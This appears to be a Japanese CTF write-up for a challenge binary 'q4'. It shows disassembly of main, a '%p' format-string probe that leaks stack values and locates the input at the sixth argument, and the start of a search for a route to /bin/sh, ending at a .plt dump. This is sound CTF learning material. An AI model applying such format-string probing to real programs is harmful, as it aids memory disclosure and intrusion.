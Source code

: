 ```bash=
 80486a5:       89 84 24 1c 04 00 00    mov    DWORD PTR [esp+0x41c],eax
 80486ac:       8b 84 24 1c 04 00 00    mov    eax,DWORD PTR [esp+0x41c]
 80486b3:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80486b7:       c7 44 24 04 00 04 00    mov    DWORD PTR [esp+0x4],0x400
 80486be:       00 
 80486bf:       8d 44 24 18             lea    eax,[esp+0x18]
 80486c3:       89 04 24                mov    DWORD PTR [esp],eax
 80486c6:       e8 b9 fd ff ff          call   8048484 <fgets@plt>
 80486cb:       8d 44 24 18             lea    eax,[esp+0x18]
 80486cf:       89 04 24                mov    DWORD PTR [esp],eax
 80486d2:       e8 dd fd ff ff          call   80484b4 <printf@plt>
 80486d7:       b8 00 00 00 00          mov    eax,0x0
 80486dc:       c9                      leave  
 80486dd:       c3                      ret    
 80486de:       90                      nop
 80486df:       90                      nop
~~ 略 ~~~

```
 - 出力より, 次のようにmainが実行されていることがわかる
     - puts
     - fgets
     - printf
     - printf
     - putchar
     - fopen
     - puts
 - fgetsを使用しているのでbofかformat stringを狙える気がする
```bash=
[q4@localhost ~]$ ./q4
What's your name?
AAAAAAAAAAAAAAAAAAAAAa
Hi, AAAAAAAAAAAAAAAAAAAAAa

Do you want the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Do you want the flag?
^C
[q4@localhost ~]$ ./q4
What's your name?
AAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Hi, AAAA,0x400,0x9258c0,0x8,0x14,0xc84fc4,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025
```

 - format stringで行けそう!
 - 引数は6個目
 - 6個目にsystem関数の実行番地を仕込んで実行すれば`/bin/sh`を実行できるか?
 - できなさそう(system関数の番地がわからない)
 - 使えそうな関数を探す
 - 
 ```bash=
 [q4@localhost ~]$ objdump -d -M intel -j .plt ./q4 

./q4:     file format elf32-i386


Disassembly of section .plt:

08048454 <__gmon_start__@plt-0x10>:
 8048454:       ff 35 d4 99 04 08       push   DWORD PTR ds:0x80499d4
 804845a:       ff 25 d8 99 04 08       jmp    DWORD PTR ds:0x80499d8
 8048460:       00 00                   add    BYTE PTR [eax],al
 ...
 ```